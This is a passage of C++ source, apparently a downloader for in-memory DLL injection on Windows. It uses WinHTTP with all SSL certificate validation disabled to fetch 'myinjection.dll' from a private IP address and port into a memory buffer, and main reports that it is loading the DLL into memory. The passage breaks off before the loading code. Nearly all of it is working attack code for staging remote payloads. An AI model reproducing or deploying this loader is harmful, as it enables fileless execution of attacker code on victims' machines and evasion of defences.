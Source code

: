 ```cpp
        WinHttpCloseHandle(hConnect);
        WinHttpCloseHandle(hSession);
        return false;
    }

    // Ignore SSL certificate validation
    DWORD flags = SECURITY_FLAG_IGNORE_UNKNOWN_CA | SECURITY_FLAG_IGNORE_CERT_WRONG_USAGE | SECURITY_FLAG_IGNORE_CERT_CN_INVALID | SECURITY_FLAG_IGNORE_CERT_DATE_INVALID;
    WinHttpSetOption(hRequest, WINHTTP_OPTION_SECURITY_FLAGS, &flags, sizeof(flags));

    // Send the request
    if (!WinHttpSendRequest(hRequest, WINHTTP_NO_ADDITIONAL_HEADERS, 0, WINHTTP_NO_REQUEST_DATA, 0, 0, 0) || !WinHttpReceiveResponse(hRequest, NULL)) {
        WinHttpCloseHandle(hRequest);
        WinHttpCloseHandle(hConnect);
        WinHttpCloseHandle(hSession);
        return false;
    }

    // Allocate buffer for data
    DWORD dwSize = 0;
    DWORD dwDownloaded = 0;
    DWORD totalSize = 0;
    LPVOID buffer = NULL;

    do {
        dwSize = 0;
        WinHttpQueryDataAvailable(hRequest, &dwSize);

        if (dwSize > 0) {
            buffer = realloc(buffer, totalSize + dwSize);
            if (!buffer) {
                WinHttpCloseHandle(hRequest);
                WinHttpCloseHandle(hConnect);
                WinHttpCloseHandle(hSession);
                return false;
            }

            if (WinHttpReadData(hRequest, (LPVOID)((BYTE*)buffer + totalSize), dwSize, &dwDownloaded)) {
                totalSize += dwDownloaded;
            }
        }
    } while (dwSize > 0);

    // Clean up
    WinHttpCloseHandle(hRequest);
    WinHttpCloseHandle(hConnect);
    WinHttpCloseHandle(hSession);

    *pBuffer = buffer;
    *pSize = totalSize;
    return true;
}

int main() {
    const wchar_t* url = L"https://192.168.45.250:8000/myinjection.dll";
    LPVOID dllBuffer = NULL;
    DWORD dllSize = 0;

    if (DownloadFileToMemory(url, &dllBuffer, &dllSize)) {
        std::wcout << L"Download successful, loading DLL into memory." << std::endl;

```